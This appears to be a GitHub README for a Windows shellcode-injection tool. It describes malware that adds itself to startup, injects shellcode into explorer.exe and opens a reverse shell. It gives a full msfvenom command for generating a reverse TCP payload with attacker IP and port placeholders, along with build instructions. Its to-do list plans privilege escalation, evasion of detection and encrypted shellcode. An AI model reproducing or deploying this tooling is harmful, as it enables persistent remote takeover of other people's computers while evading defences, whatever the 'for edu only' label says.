 # shellinject for edu  ONLY!



code explain the code is writing itself to windows startup then it finding the pid of explorer.exe 
and injecting shell code in my example its reverse_shell 

------------------------------------------------------------------------------------


before use change the shellcode to your shellcode you can generate it useing msfvenom 
for example ```msfvenom --platform windows --arch x64 EXITFUNC=thread -p windows/x64/shell/reverse_tcp_rc4 LHOST=YOURE_IP LPORT=YOURE_PORT RC4PASSWORD=YOURE_PASS EXITFUNC=thread -f c --var-name=ucReverseShell```
copy it to here  
![Screenshot (8)](https://github.com/masterconi/shellinject/assets/85493153/d8ef7109-650f-40f0-af7f-aad2e9be4628)


-------------------------------------------------------------------------------------

plus you can change the executeble to be injected in here :
![Screenshot (9)](https://github.com/masterconi/shellinject/assets/85493153/02713da7-7695-45b3-9ef7-bed1fbe6e6c4)

------------------------------------------------------


to build the repo try to do it with g++ or msvs

g++ example :``` g++ add_to_startup.cpp find_pid.cpp shellinj.cpp -o shellinj.exe```

sorry idk how copy it to msvc  ¯\\_(ツ)_/¯

----------------------------------------------------

why i did it ?

i have nothin to do at holidays :-D

--------------------------------------------------------
TODO :add priv esc , make hard to detect , make the shell code encrypted , make the shell code inject "vir.dll" , make readme.md more beautiful (✿◡‿◡)



i would be happy to get help thanks
